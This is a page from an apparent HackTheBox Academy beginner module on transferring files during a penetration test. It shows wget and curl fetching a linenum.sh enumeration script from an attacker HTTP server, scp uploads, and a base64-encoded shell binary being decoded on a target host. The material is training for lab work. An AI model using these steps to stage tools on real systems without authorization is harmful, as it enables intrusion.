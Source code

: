 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/77/section/849
// Platform Version: V1
// Module ID: 77
// Module Name: Getting Started
// Module Difficulty: Fundamental
// Section ID: 849
// Section Title: Transferring Files
// Page Title: Getting Started
// Page Number: 12
-->

# Transferring Files

**Module Name:** Getting Started **Page Number:** 12

#### GETTING STARTED

# Transferring Files

## Using wget

``` shell-session
[!bash!]$ cd /tmp
[!bash!]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

``` shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

``` shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## Using SCP

``` shell-session
[!bash!]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

## Using Base64

``` shell-session
[!bash!]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

``` shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers

``` shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

``` shell-session
[!bash!]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

``` shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

####